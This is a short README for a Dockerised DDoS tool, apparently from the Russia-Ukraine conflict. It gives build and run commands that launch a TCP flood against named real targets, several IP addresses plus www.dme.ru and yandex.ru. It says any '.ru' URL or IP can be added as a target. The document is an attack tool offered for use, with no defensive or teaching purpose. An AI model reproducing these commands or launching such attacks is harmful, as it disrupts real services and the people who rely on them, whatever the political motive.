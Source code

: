 # DDOS
After successful downloading you need to install docker desktop.
https://www.docker.com/products/docker-desktop
Open MainApp folder in terminal and run two commands:
docker build -t ddosimage .
docker run -it --rm  ddosimage  3 80.68.247.26 www.dme.ru yandex.ru 195.218.193.151 77.51.53.74
Last row after "ddosimage"  you can put all ip address on which you want to make TCP ddos attack or url
PS: url pust be with domain ".ru" becouse program can filter only url with ".ru" otherwise in will make an excaption.


Слава Україні!!!!

